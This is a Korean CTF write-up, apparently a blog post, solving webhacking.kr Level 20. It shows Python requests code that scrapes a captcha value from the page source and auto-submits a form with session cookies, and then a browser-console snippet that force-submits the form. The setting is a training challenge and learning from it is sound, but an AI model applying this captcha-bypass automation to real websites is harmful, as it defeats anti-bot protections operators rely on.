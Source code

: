 ```yaml
---
layout: post
title: Webhacking.kr | Level 20
subtitle: Webhacking CTF Problem Solving
categories: webhacking.kr
tags: [Pentest, Web]
---
```


**본 문제는 [webhacking.kr](https://webhacking.kr)를 통해서 풀어 보실 수 있습니다.**

**해답을 이해하며 생각을 해보면서 풀이 해보시길 바랍니다.**

## 문제 내용

<p align="center">
<img src ="https://user-images.githubusercontent.com/78135526/205825391-dc40a54c-dcf3-4a8d-be0e-8324276e14a8.png" width = 400> 
</p>

접속하면 입력해야 할 **nickname, comment, captcha** 세 부분이 존재하는데 최상단을 보면 **time limit : 2 second** 시간 제한은 2초로 되어 있다.

**captcha**로 인해서 2초내에 입력은 불가능할 것으로 보인다.

따라서, `python requests`를 이용해 해당 값을 자동으로 집어넣고 Submit하는 Exploit을 작성해보고자 한다.

## 문제 풀이

<p align="center">
<img src ="https://user-images.githubusercontent.com/78135526/205825840-2089f334-4061-4732-bc27-f70427d75a1e.png" width = 360> 
</p>

입력 값을 넣고 submit 하는것을 Burp Suite로 잡았을 때의 모습이다.

POST 방식을 이용하고 **Body**에 들어가는 변수로는 **id, cmt, captcha**인 것을 알 수 있다.

python을 이용해서 해당 리소스들이 어떤 식으로 존재하는 지 확인해본다.

```python
import requests

url = 'https://webhacking.kr/challenge/code-4/'

r = requests.get(url)
print(r.text)
```

```html
<html>
<head>
<title>Challenge 20</title>
<style type="text/css">
body { background:black; color:white; font-size:10pt; }
input { background:silver; color:black; font-size:9pt; }
</style>
</head>
<body>
<center><font size=2>time limit : 2 second</font></center>
<form name=lv5frm method=post>
<table border=0>
<tr><td>nickname</td><td><input type=text name=id size=10 maxlength=10></td></tr>       
<tr><td>comment</td><td><input type=text name=cmt size=50 maxlength=50></td></tr>       
<tr><td>captcha</td><td><input type=text name=captcha><input type=button name=captcha_ value="C3t9ybswHJ" style="border:0;background=lightgreen"></td></tr>
<tr><td><input type=button value=Submit onclick=ck()></td><td><input type=reset value=reset></td></tr>
</table>
<script>
function ck(){
  if(lv5frm.id.value=="") { lv5frm.id.focus(); return; }
  if(lv5frm.cmt.value=="") { lv5frm.cmt.focus(); return; }
  if(lv5frm.captcha.value=="") { lv5frm.captcha.focus(); return; }
  if(lv5frm.captcha.value!=lv5frm.captcha_.value) { lv5frm.captcha.focus(); return; }   
  lv5frm.submit();
}
</script>
</body>
</html>
```

모든 내용을 `\n` 기준으로 `split`하고 captcha가 있는 부분을 인덱싱하여 값을 가져오면 된다.

이제 Burp Suite로 잡았던 것 처럼 값을 담아서 POST 보내보겠습니다.

```python
import requests

url = 'https://webhacking.kr/challenge/code-4/'

cookies = {
    'st' : '1670306429',
    'PHPSESSID' : 'd80585g759loihj05an8vqdenh'
}
r = requests.get(url)

lst = (r.text).split('\n')

captcha = lst[14][94:104]
print(captcha)

data = {
    'id' : '1',
    'cmt' : '1',
    'captcha' : captcha
}

r = requests.post(url, cookies = cookies, data = data)

print(r.text)
```

**하지만, captcah라는 것은 컴퓨터와 사람을 구분짓기 위한 완전 자동 튜링 테스트로, 웹사이트에서 사람이 접근하려고 하는 것인지 봇이 접근하는 것인지 판단하기 위하여 사용되는 테스트다.**

즉, Exploit을 날리게되면 컴퓨터인지 사람인지 구분하는 테스트를 진행할 수 없기 때문에 다시 접근해야 한다.

```javascript
function ck(){
  if(lv5frm.id.value=="") { lv5frm.id.focus(); return; }
  if(lv5frm.cmt.value=="") { lv5frm.cmt.focus(); return; }
  if(lv5frm.captcha.value=="") { lv5frm.captcha.focus(); return; }
  if(lv5frm.captcha.value!=lv5frm.captcha_.value) { lv5frm.captcha.focus(); return; }
  lv5frm.submit();
}
```

개발자도구를 켜고 스크립트를 보면 값을 보낼 때 누르는 Submit에 **onclick = ck()**이 있다.

개발자도구 콘솔을 이용해 captcha의 값을 읽은 동시에 값을 넣고 강제로 Submit을 할 수 있을 것이다.

```javascript
lv5frm.id.value = "1"
lv5frm.cmt.value = "1"
lv5frm.captcha.value = lv5frm.captcha_.value
lv5frm.submit();
```

새로고침하고 해당 값을 엔터하면 해결이 된다.

<p align="center">
<img src ="https://user-images.githubusercontent.com/78135526/205836357-46da40de-eac1-416b-8b52-9c7267f282ab.png" width = 400> 
</p>